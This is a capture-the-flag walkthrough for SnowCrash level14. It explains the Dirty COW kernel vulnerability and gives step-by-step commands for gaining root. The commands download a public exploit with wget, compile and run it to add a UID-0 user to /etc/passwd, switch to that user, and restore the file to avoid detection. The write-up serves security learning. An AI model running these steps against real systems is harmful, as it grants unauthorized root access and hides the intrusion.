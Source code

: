 # Level14 - SnowCrash

## Objective

Gain root access from the user `level14` using a known Linux kernel vulnerability called **Dirty COW**.

---

## Vulnerability Overview: Dirty COW (CVE-2016-5195)

**Dirty COW** is a privilege escalation vulnerability affecting Linux kernels older than 4.8.3. It exploits a race condition in the kernel’s **copy-on-write (COW)** mechanism, allowing an unprivileged user to **modify read-only files**, such as `/etc/passwd`.

This vulnerability can be abused to **add a root user** to the system.

---

## Exploitation Steps

### 1. Check Kernel Version

Login as `level14` and check the kernel version:

```bash
uname -a

Output:

Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP ... i686 GNU/Linux

This confirms that the kernel version is vulnerable.

2. Download the Dirty COW Exploit
Navigate to a writable directory like /tmp, then download the exploit:

cd /tmp
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
3. Compile the Exploit
Compile the exploit using GCC:

gcc -pthread dirty.c -o dirty -lcrypt
This generates a binary named dirty.

4. Run the Exploit

./dirty
You'll be prompted to enter a password for the fake root user (e.g., hackedroot). After running, the script adds a new root-level user entry to /etc/passwd:


firefart:<hashed_password>:0:0:pwned:/root:/bin/bash
This means the user firefart has UID 0 — the same as root.

5. Switch to the Root User

su firefart
Enter the password you provided during the exploit. You now have root access.

6. Clean Up
Important: Restore the original /etc/passwd file to avoid detection and system damage:

mv /tmp/passwd.bak /etc/passwd

